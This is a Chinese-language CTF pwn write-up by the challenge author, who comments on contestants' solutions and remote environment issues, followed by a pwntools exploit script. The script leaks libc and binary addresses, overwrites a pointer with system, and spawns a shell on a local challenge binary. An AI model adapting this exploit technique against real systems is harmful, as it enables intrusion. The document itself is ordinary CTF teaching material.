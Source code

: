 

> 这道题看了选手的反馈，发现解法真是千奇百怪
>
> 有不少人卡在了 leak 那步，没想到可以用栈上未初始化的内存来 leak，然后就开始打堆...，于是就出现了很多很复杂的堆风水的做法。（但其实题目描述中明确表示了本题与堆无关）
>
> 因为一些不明原因，平台的环境与 docker 和本地的环境是不一样的。有人反映远程的堆上偏移和本地存在差异，导致出现本地和 docker 都能打通但远程打不通的情况。这种情况我也没有找到解决方案，给大家带来不便真的非常抱歉，给大家磕一个 orz。所以在之后上线了一个免费 hint 用来提示选手预期的 leak 方法



**exp**

```python
#! /usr/bin/env python3.8
from pwn import *
from ctools import *

context(os="linux", arch="amd64")
TMUX_TERMINAL()
# context.log_level = "debug"

elf_path = './pwn'
libc_path = './libc.so.6'

init_elf_with_libc(elf_path, libc_path)
DEBUG = lambda script = '': gdb.attach(io, gdbscript=script)

conn_context(host='127.0.0.1', port=9999, level=LOCAL, elf=elf_path)

elf = ELF(elf_path)
libc = ELF(libc_path, checksec=False)
io = conn()

def exp():
    io.sendafter(b'>', b'a' * 0x188)
    io.recvuntil(b'a' * 0x188)
    libc.address = u64(io.recv(6).ljust(8, b'\x00')) - libc.symbols['_IO_2_1_stderr_']
    success('libc.address: ' + hex(libc.address))
    
    io.sendafter(b'>', b'a' * 0x200)
    io.recvuntil(b'a' * 0x200)
    elf.address = u64(io.recv(6).ljust(8, b'\x00')) - elf.symbols['main']
    success('elf.address: ' + hex(elf.address))

    io.sendlineafter(b'>', b'touch file1')
    io.sendlineafter(b'>', b'echo ' + b'a' * 0x1f + b' > file1')

    pad = b'ls ' + b'a ' * 10
    pad += b'\x11' * 0x8 + p64(elf.address + 0x4060 - 8)[:6]
    pad += b' ' + b'\x10' * 0x10 + p64(libc.symbols['system'])[:6]
    io.sendlineafter(b'>', pad)

    pad = b'echo ' + b'/bin/sh;' + p64((0x528) // 0x18) +  b' > file1'
    pad = pad.replace(b'\x00', b'')
    io.sendlineafter(b'>', pad)
    
    # DEBUG()
    io.sendlineafter(b'>', b'luofuck')
    
    pass

try:
    exp()
    io.interactive()
finally:
```